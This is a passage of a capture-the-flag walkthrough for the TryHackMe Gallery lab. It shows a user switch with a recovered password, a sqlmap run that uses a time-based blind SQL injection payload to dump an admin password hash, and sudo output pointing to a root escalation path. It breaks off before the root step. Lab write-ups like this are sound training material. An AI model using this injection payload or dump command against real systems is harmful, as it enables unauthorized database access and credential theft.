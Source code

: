3. FInally something new. If we try this password with mike it works. Lets grab our user.txt flag.

```bash
www-data@gallery:/var/www/html/gallery/uploads/user_1/album_2$ su mike
Password: 
mike@gallery:/var/www/html/gallery/uploads/user_1/album_2$ 
mike@gallery:/var/www/html/gallery/uploads/user_1/album_2$ cd 
mike@gallery:~$ cat user.txt 
THM{<REDACTED>}
```

Meanwhile sqlmap finally finished bruteforcing the tables and columns

```bash

┌──(kali㉿kali)-[~/CTFs/TryHackmeCTFs/Gallery]
└─$ sqlmap -r sql.txt -D gallery_db -T users -C username,password --dump        
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.11#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:55:13 /2023-03-10/

---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 9716 FROM (SELECT(SLEEP(5)))GBpJ) AND 'WeMq'='WeMq&password=helloworld
---
Database: gallery_db
Table: users
[1 entry]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | a228b12a08b6527e7978cbe5d914531c |
+----------+----------------------------------+

```

4. There goes question number 2
	a228b12a08b6527e7978cbe5d914531c

Only task left is to get the root flag. Running sudo -l we can see we can execute rootkit.sh as root without password

```bash
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
